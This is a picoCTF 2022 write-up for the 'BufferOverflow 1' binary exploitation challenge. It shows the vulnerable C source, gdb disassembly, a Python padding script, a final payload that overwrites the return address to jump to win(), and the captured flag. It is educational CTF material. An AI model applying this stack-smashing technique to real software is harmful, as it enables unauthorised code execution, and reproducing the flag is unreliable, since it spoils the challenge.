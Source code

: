 # picoCTF 2022

> Arvind Shima | March 24,2022

## Overview

| Tables | Description |
| ------ | ----------- |
| Category | Binary Exploitation |
| Challenge Name | BufferOverflow 1 |
| Points | 200 |

## Description

Control the return address

#### Hints

- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

## Approach

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

After looked up the source code. The function `win()` never been called. So, It should be the return address. Let's execute the binary in gdb and disassemble main.

### GDB (debugger)

```bash
(gdb) disassemble main 
Dump of assembler code for function main:
   0x080492c4 <+0>:	endbr32 
   0x080492c8 <+4>:	lea    ecx,[esp+0x4]
   0x080492cc <+8>:	and    esp,0xfffffff0
   0x080492cf <+11>:	push   DWORD PTR [ecx-0x4]
   0x080492d2 <+14>:	push   ebp
   0x080492d3 <+15>:	mov    ebp,esp
   0x080492d5 <+17>:	push   ebx
   0x080492d6 <+18>:	push   ecx
   0x080492d7 <+19>:	sub    esp,0x10
   0x080492da <+22>:	call   0x8049130 <__x86.get_pc_thunk.bx>
   0x080492df <+27>:	add    ebx,0x2d21
   0x080492e5 <+33>:	mov    eax,DWORD PTR [ebx-0x4]
   0x080492eb <+39>:	mov    eax,DWORD PTR [eax]
   0x080492ed <+41>:	push   0x0
   0x080492ef <+43>:	push   0x2
   0x080492f1 <+45>:	push   0x0
   0x080492f3 <+47>:	push   eax
   0x080492f4 <+48>:	call   0x80490b0 <setvbuf@plt>
   0x080492f9 <+53>:	add    esp,0x10
   0x080492fc <+56>:	call   0x8049070 <getegid@plt>
   0x08049301 <+61>:	mov    DWORD PTR [ebp-0xc],eax
   0x08049304 <+64>:	sub    esp,0x4
   0x08049307 <+67>:	push   DWORD PTR [ebp-0xc]
   0x0804930a <+70>:	push   DWORD PTR [ebp-0xc]
   0x0804930d <+73>:	push   DWORD PTR [ebp-0xc]
   0x08049310 <+76>:	call   0x80490d0 <setresgid@plt>
   0x08049315 <+81>:	add    esp,0x10
   0x08049318 <+84>:	sub    esp,0xc
   0x0804931b <+87>:	lea    eax,[ebx-0x1f60]
   0x08049321 <+93>:	push   eax
   0x08049322 <+94>:	call   0x8049080 <puts@plt>
   0x08049327 <+99>:	add    esp,0x10
   0x0804932a <+102>:	call   0x8049281 <vuln>
   0x0804932f <+107>:	mov    eax,0x0
   0x08049334 <+112>:	lea    esp,[ebp-0x8]
   0x08049337 <+115>:	pop    ecx
   0x08049338 <+116>:	pop    ebx
   0x08049339 <+117>:	pop    ebp
   0x0804933a <+118>:	lea    esp,[ecx-0x4]
   0x0804933d <+121>:	ret    
End of assembler dump.

```

The function `vuln()` get user's inputs. So, Prepare the payload to smash the binary and then analyse the code.

```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
print padding
```

Execute the python script and piping to file called exploit.

```bash
python2 stack.py > exploit
```

#### GDB (debugger)

Set the breakpoint to vuln() address and run the payload.

```bash
(gdb) break *0x0804932a
Breakpoint 1 at 0x804932a
(gdb) r < exploit 
Starting program: /home/whoami/Workspace/picoctf/picoctf2022/binary_exp/bufferoverflow1/vuln < exploit
Please enter your string: 

Breakpoint 1, 0x0804932a in main ()
(gdb) ni
Okay, time to return... Fingers Crossed... Jumping to 0x4c4c4c4c

Program received signal SIGSEGV, Segmentation fault.
0x4c4c4c4c in ?? ()
(gdb) x win 
0x80491f6 <win>:	0xfb1e0ff3

```

See It overflow's EIP with `0x4c4c4c4c` and `0x4c means 'L'`. Let's cut down the string from `'L'` and modify our python code with return address of `win()`.

```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK"
padding += "\xf6\x91\x04\x08" # 0x80491f6
print padding
```

Connect to the netcat and pipe the payload. Here, We got redirected to `win()` address.

```bash
nc saturn.picoctf.net 62786 < exploit 

Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
```

## Flag

```
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
```
